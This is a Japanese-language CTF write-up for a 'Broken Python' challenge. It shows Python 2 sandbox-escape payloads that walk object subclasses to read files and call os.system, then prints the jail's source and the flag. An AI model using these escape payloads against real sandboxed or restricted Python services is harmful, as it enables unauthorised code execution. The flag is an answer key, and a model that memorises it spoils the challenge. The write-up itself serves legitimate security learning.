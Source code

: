 # Broken Python

## Description

382

Please help me read the flag. I thought I knew python but this python shell is broken.

## writeup

python3でprint文が動かず、試しに2系の構文を打つとエラーが返ってこなかったので、2系でフラグを得なければならないと判断しました。
linux問でもこういう入力が制限された問題だったので、linux jailからpython jailなどで調べました。
__builtin__のメソッドを中心に調査し、flag.txtのreadを実行すると、ソースコードを読めと返ってきました。そこで、lsを実行すると`jail.py`というファイルが確認できました。あとは同様にreadすればフラグが読めました。


```bash
 print  ().__class__.__bases__[0].__subclasses__()[40]('./flag.txt').read()
The flag is in the source code.
>>> print ().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
#
flag.txt
jail.py
start.sh
0
>>> print  ().__class__.__bases__[0].__subclasses__()[40]('./jail.py').read()
#!/usr/bin/python

import sys

class Sandbox(object):
    def execute(self, code_string):
        exec(code_string)
        sys.stdout.flush()

sandbox = Sandbox()

_raw_input = raw_input

main = sys.modules["__main__"].__dict__
orig_builtins = main["__builtins__"].__dict__

builtins_whitelist = set((
    #exceptions
    'ArithmeticError', 'AssertionError', 'AttributeError', 'Exception',

    #constants
    'False', 'None', 'True',

    #types
    'basestring', 'bytearray', 'bytes', 'complex', 'dict',

    #functions
    'abs', 'bin', 'dir', 'help'

    # blocked: eval, execfile, exit, file, quit, reload, import, etc.
))

for builtin in orig_builtins.keys():
    if builtin not in builtins_whitelist:
        del orig_builtins[builtin]

print("Find the flag.")
sys.stdout.flush()

def flag_function():
    flag = "OFPPT-CTF{py7h0n_br34k_1s_l1k3_pr1s0n_br34k_sh0w}"

while 1:
    try:
        sys.stdout.write(">>> ")
        sys.stdout.flush()
        code = _raw_input()
        sandbox.execute(code)

    except Exception:
        print("You have encountered an error.")
        sys.stdout.flush()
>>>
```

## FLAG

```bash
OFPPT-CTF{py7h0n_br34k_1s_l1k3_pr1s0n_br34k_sh0w}
```
